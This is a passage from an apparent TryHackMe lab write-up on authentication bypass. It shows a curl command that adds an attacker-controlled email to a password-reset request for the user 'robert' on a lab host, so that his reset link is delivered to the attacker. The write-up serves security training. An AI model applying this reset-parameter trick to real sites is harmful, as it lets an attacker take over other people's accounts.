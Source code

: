 ![Create New User Account](../../assets/images/thm/authenticationbypass/10-pass_reset_new_account.png)

Note that we created a user named `test` and are given an email address of `test@customer.acmeitsupport.thm`. Now lets go back to our malicious payload and replace the placeholder email address with the one we control.

```text
curl 'http://10.10.10.230/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=test@customer.acmeitsupport.thm'
```
Running the `curl` command above will create a ticket on our account whose contents will be the password reset link for *Robert*.

![Password Reset Link for Robert](../../assets/images/thm/authenticationbypass/11-pass_reset_link.png)
